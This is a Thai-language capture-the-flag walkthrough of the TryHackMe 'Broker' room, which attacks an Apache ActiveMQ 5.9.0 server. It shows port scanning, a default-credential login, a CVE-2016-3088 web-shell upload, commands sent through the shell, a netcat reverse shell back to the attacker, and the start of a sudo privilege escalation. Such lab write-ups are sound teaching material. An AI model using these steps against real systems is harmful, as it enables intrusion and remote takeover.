### ✨ บทนำ
Broker เป็นห้อง CTF ที่เน้นเจาะระบบ Apache ActiveMQ ซึ่งทำงานเป็น Message Broker ผู้เล่นจะต้องสแกนพอร์ต, วิเคราะห์บริการ, exploit ช่องโหว่ (CVE-2016-3088) และยกระดับสิทธิ์จนได้ root

### 🔍 เป้าหมายของโจทย์
- ทำ Port Scan หาพอร์ตที่เปิด
- ระบุ Software ที่ใช้งาน
- อ่านข้อมูลที่ซ่อนใน ActiveMQ (secret_chat)
- Exploit ActiveMQ → Reverse Shell
- ยกระดับสิทธิ์เป็น Root และดึง Flag

🧠 TryHackMe - Broker 📈

> 🟡 หมวด: Web / Privilege Escalation  
> 🧩 ความยาก: Medium  
> 🕵️‍♂️ โหมด: CTF แบบ Capture The Flag  
> 🧩 URL: [Revenge](https://tryhackme.com/room/broker)  
> 👨‍💻 ผู้ทำ: Thanyakorn

## 📚 สารบัญ

- 🛰️ 1. สแกนพอร์ต (Port Scanning)
- 🌐 2. วิเคราะห์บริการ (Service Enumeration)
- 🔐 3. เข้าสู่ระบบ ActiveMQ
- 📡 4. อ่านข้อความลับจาก MQTT
- 🚪 5. Exploit ActiveMQ (CVE-2016-3088)
- 🖥️ 6. Reverse Shell & Initial Access
- 🔼 7. Privilege Escalation → Root
- 🏁 8. เก็บ Flag

---

## 🛰️ ขั้นตอนที่ 1 : การสแกนพอร์ต (Port Scanning)

📌 โจทย์:
ให้ทำการ สแกน TCP Port ทั้งหมดที่มีหมายเลขมากกว่า 1000 และน้อยกว่า 10000 เพื่อระบุว่าพอร์ตใดบ้างที่เปิดใช้งานอยู่บนเครื่องเป้าหมาย

💻 คำสั่งที่ใช้

```bash
nmap -sS -p 1001-9999 -T5 10.10.94.190
```



🧩 อธิบายพารามิเตอร์
- ⚡ `-sS` → SYN Scan (Half-open) เร็วและ stealthy กว่าการเชื่อมต่อเต็มรูปแบบ
- 🎯 `-p 1001-9999` → กำหนดช่วงพอร์ต 1001–9999
- 🚀 `-T5` → ใช้ความเร็วสูงสุด (Aggressive timing) → สแกนไวขึ้น แต่มีโอกาสถูกตรวจจับได้
- 🌐 `10.10.94.190` → IP ของเครื่องเป้าหมาย

📊 ผลลัพธ์การสแกน
พบว่าพอร์ตที่เปิดอยู่คือ: 
| Port      | Service                       |
|-----------|-------------------------------|
| 1883/tcp | MQTT                          |
| 8161/tcp | Apache ActiveMQ Web Console   |

> 👉 จากขั้นตอนนี้ เราทราบแล้วว่าเครื่องเป้าหมายรัน MQTT บนพอร์ต 1883 และ ActiveMQ Web Console บนพอร์ต 8161 ซึ่งจะถูกใช้ในการโจมตีขั้นตอนต่อไป

## 🌐 ขั้นตอนที่ 2 : วิเคราะห์บริการ (Service Enumeration)

📌 โจทย์:
What is the name of the software they use? (ซอฟต์แวร์ที่เครื่องเป้าหมายใช้งานคืออะไร?)

🔍 การทดสอบบริการที่พบ



- เมื่อทดลองเข้าที่พอร์ต 1883 → ไม่สามารถเข้าผ่านเว็บเบราเซอร์ได้ เนื่องจากพอร์ตนี้ใช้สำหรับ MQTT (Message Queuing Telemetry Transport)
  - โปรโตคอลนี้มักถูกใช้ในงาน IoT (Internet of Things)
  - ไม่ใช่โปรโตคอลที่รองรับการแสดงผลผ่านเว็บโดยตรง
 


- เมื่อทดลองเข้าที่พอร์ต 8161 → พบหน้า Web Console ที่สามารถเข้าผ่านเบราเซอร์ได้
  - พอร์ตนี้เป็นพอร์ตมาตรฐานของ Apache ActiveMQ
  - ActiveMQ คือ Message Broker ที่ใช้จัดการ message queuing
  - มีหน้าที่ส่งและรับข้อความระหว่างแอปพลิเคชันต่าง ๆ
  - รองรับการทำงานแบบ Asynchronous Communication (ไม่ต้องรอผลลัพธ์ทันที)
  - มักถูกใช้เพื่อเชื่อมโยงและประสานงานระหว่างระบบที่แตกต่างกัน
 
> 👉 จากจุดนี้ เราทราบแล้วว่าระบบรัน ActiveMQ Web Console อยู่ที่พอร์ต 8161 ซึ่งจะเป็นกุญแจสำคัญในการเจาะระบบขั้นตอนต่อไป

## 🔐 ขั้นตอนที่ 3 : เข้าสู่ระบบ ActiveMQ

📌 โจทย์:
Which videogame are Paul and Max talking about? (พอลกับแม็กซ์กำลังพูดถึงวิดีโอเกมอะไรอยู่?)

🖥️ การเข้าถึง Web Console
- เมื่อเข้าไปที่ พอร์ต 8161 จะเห็นหน้าเว็บ Apache ActiveMQ Console
- ลองเข้าสู่ระบบด้วย credential ค่าเริ่มต้น:
  - `admin/password` → ❌ ใช้งานไม่ได้
  - `admin/admin` → ✅ สามารถล็อกอินได้สำเร็จ



🔎 ข้อมูลที่ค้นพบ
- หลังจากล็อกอิน พบว่า ActiveMQ Version ที่รันอยู่คือ:
  
  🧩 Apache ActiveMQ 5.9.0

> 👉 จากจุดนี้ เราสามารถเข้าถึงเมนูจัดการของ ActiveMQ ได้แล้ว และจะนำไปสู่การค้นหาข้อความที่ Paul และ Max พูดคุยกันในขั้นตอนถัดไป

## 📡 ขั้นตอนที่ 4 : อ่านข้อความลับจาก MQTT

🔎 การตรวจสอบ Topic
- หลังจากล็อกอินเข้าสู่ ActiveMQ Console
- เมื่อกดไปที่หัวข้อ Topics จะพบตารางแสดงรายการต่าง ๆ



- มี Topic ที่น่าสนใจชื่อว่า `secret_chat` ซึ่งมีข้อความถูก queue อยู่ประมาณ 64 ข้อความ
- นี่น่าจะเป็นแหล่งข้อมูลการสนทนาของ Paul และ Max

💻 การเขียน Client เพื่อ Subscribe ข้อความ
เพื่ออ่านข้อความใน `secret_chat` เราต้องเขียน MQTT client ขึ้นมา:
1. สร้างไฟล์ชื่อ `client.py`
2. วางโค้ดด้านล่างนี้ลงไป

```bash
import paho.mqtt.client as mqtt

# The callback for when the client receives a CONNACK response from the server.
def on_connect(client, userdata, flags, rc):
    print("Connected with result code " + str(rc))
    # Subscribing in on_connect() means that if we lose the connection and
    # reconnect then subscriptions will be renewed.
    client.subscribe("$SYS/#")

# The callback for when a PUBLISH message is received from the server.
def on_message(client, userdata, msg):
    print(msg.topic + " " + str(msg.payload))

client = mqtt.Client(protocol=mqtt.MQTTv31)
client.on_connect = on_connect
client.on_message = on_message

client.connect("tun0", 1883, 60)

client.loop_forever()
```



📝 คำอธิบายโค้ด
- 📡 `on_connect` → เชื่อมต่อกับ MQTT broker และ subscribe ไปยัง topic secret_chat
- 📩 `on_message` → ฟังก์ชันสำหรับรับข้อความและพิมพ์ผลออกมา
- ⚙️ ใช้ โปรโตคอล MQTT v3.1 (MQTTv31) และพอร์ตมาตรฐาน 1883
- 🌐 `client.connect("10.10.94.190", 1883, 60)` → เปลี่ยน IP เป็น VPN tun0 ของเราเองใน TryHackMe

โค้ดนี้นำมาจาก [Eclipse Paho MQTT Python Client](https://github.com/eclipse-paho/paho.mqtt.python#getting-started) ซึ่งเป็นไลบรารีมาตรฐานสำหรับเขียน MQTT Client


**รัน `client.py` ด้วย `python3 client.py` เพื่อ subscribe topic `secret_chat` บน broker (พอร์ต 1883)**

รันสคริปต์ด้วย:
```bash
python3 client.py
```



📤 ผลลัพธ์:

✅ เมื่อเชื่อมต่อสำเร็จ จะแสดง `Connected with result code 0`

## 🚪 5. Exploit ActiveMQ (CVE-2016-3088) — Put shell

> ใช้ช่องโหว่ CVE-2016-3088 ใน Apache ActiveMQ เพื่ออัปโหลดไฟล์ “shell” ลงไปยังเครื่องเป้าหมาย (put shell) ผ่าน Web Console — เมื่อสำเร็จจะได้ข้อความยืนยันว่า `Bygshell` → แปลว่า shell ถูกวาง/เปิดสำเร็จบน target

**📥 เตรียมไฟล์ exploit**
โค้ด exploit ที่ใช้: `ActiveMQ_putshell.py`
แหล่งที่มาตัวอย่าง: [ActiveMQ_putshell-CVE-2016-3088](https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088)

ขั้นตอน:
```bash
# 1) ดาวน์โหลด exploit (ตัวอย่าง)
git clone https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088.git
cd ActiveMQ_putshell-CVE-2016-3088

# 2) ตรวจสอบไฟล์ (เช่น ActiveMQ_putshell.py)
ls -la

# 3) รัน exploit เพื่อ put shell ไปยัง ActiveMQ Web Console
python3 ActiveMQ_putshell.py -u http://10.10.94.190:8161
```



- เมื่อรันสำเร็จ สคริปต์จะแสดง path/URL ของไฟล์ที่อัพโหลด

🔗 เรียกใช้งานผ่าน Web Console (query string)
หลังจากได้ URL ของ JSP แล้ว เราสามารถส่งคำสั่งผ่าน query string ได้ ตัวอย่างพารามิเตอร์ที่ใช้:
- `pwd=gshell` — พารามิเตอร์ยืนยันการเรียกใช้งาน 🔐
- `shell=<คำสั่ง>` — คำสั่งที่จะให้เซิร์ฟเวอร์รัน 🧩

ตัวอย่างส่ง `uname -a`:
```bash
http://10.10.94.190:8161/admin/guo.jsp?pwd=gshell&shell=uname -a
```



✅ ผลลัพธ์จะแสดงข้อมูล uname -a ของเซิร์ฟเวอร์ (kernel version, architecture, OS ฯลฯ) — ยืนยันการรันคำสั่งได้ 🔍

## 🐚 6. การเชื่อมต่อผ่าน Web Console และเปิด shell 
- หลังจากนั้นเราจะเชื่อมต่อกับ Web Console ของ ActiveMQ เพื่อส่งคำสั่งไปยังเซิร์ฟเวอร์
- พารามิเตอร์ที่ส่งไปยัง JSP เพื่อเปิด reverse shell:
```bash
pwd=gshell&shell=nc tun0 1234 -e /bin/sh
```



คำอธิบาย: พารามิเตอร์นี้สั่งให้ ActiveMQ เรียก `netcat` เพื่อเชื่อมกลับ (reverse shell) ไปยัง IP ของ tun0 บนพอร์ต `1234` และรัน `/bin/sh` บนเครื่องเป้าหมาย — เมื่อสำเร็จจะได้ shell บนเครื่องเป้าหมายเชื่อมกลับมาหาเรา ✅

- เมื่อได้การเชื่อมต่อแล้ว ให้ยกระดับเป็น interactive shell แบบเต็มรูปแบบด้วย:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
ผล: จะได้ shell ที่ใช้งานเหมือนเทอร์มินัลปกติ (สามารถใช้คำสั่งเช่น `cd`, `ls`, `cat` ได้สะดวกขึ้น) 🛠️

- ขั้นตอนถัดไป: ลองรัน ls เพื่อดูรายการไฟล์ในไดเรกทอรีปัจจุบัน — เราก็จะพบไฟล์ `flag.txt` 🎯



## 7) ยกระดับสิทธิ์เป็น root

- เราจะมาใช้คำสั่ง sudo -l เพื่อดูว่า user activemq สามารถใช้คำสั่งอะไรบ้างในระบบท่ี่มีสิทธิ์ root โดยไม่ต้องใช้รหัสผ่ำน



🔎 ข้อมูลที่พบ (จาก sudo -l)

ผลลัพธ์ของ sudo -l ระบุว่า:
```bash
(root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

หมายความว่า `activemq` สามารถสั่งให้ระบบรัน `/usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py` ในฐานะ root ได้โดยไม่ต้องใช้รหัสผ่าน — หากสคริปต์นั้นสามารถรันคำสั่งของเรา (หรือแก้ไขได้) เราสามารถใช้ช่องนี้เพื่อยกระดับเป็น root ได้

- ใช้คำสั่ง `mv subscribe.py subscribe.py.bak` เพื่อเปลี่ยนชื่อไฟล์
- จากนั้นทำการเปิดไฟล์ด้วย `nano` จะพบข้อผิดพลาดว่าไม่สามารถเปิดเทอร์มินัลได้ (Error opening terminal: unknown) ทำให้ไม่สามารถแก้ไขไฟล์ด้วย `nano` ได้โดยตรง
- สาเหตุอย่างหนึ่งมักมาจากตัวแปรสภาพแวดล้อม `$TERM` ถูกตั้งค่าไม่ถูกต้องหรือไม่มีการกำหนดค่าสำหรับเทอร์มินัลที่ใช้งานอยู่ ในกรณีนี้สามารถแก้ได้ชั่วคราวโดยการตั้งค่า `$TERM` เป็นค่าแบบมาตรฐาน เช่น `xterm`:
```bash
export TERM=xterm
```

หลังตั้งค่าแล้ว ให้รันคำสั่ง `nano` อีกครั้ง




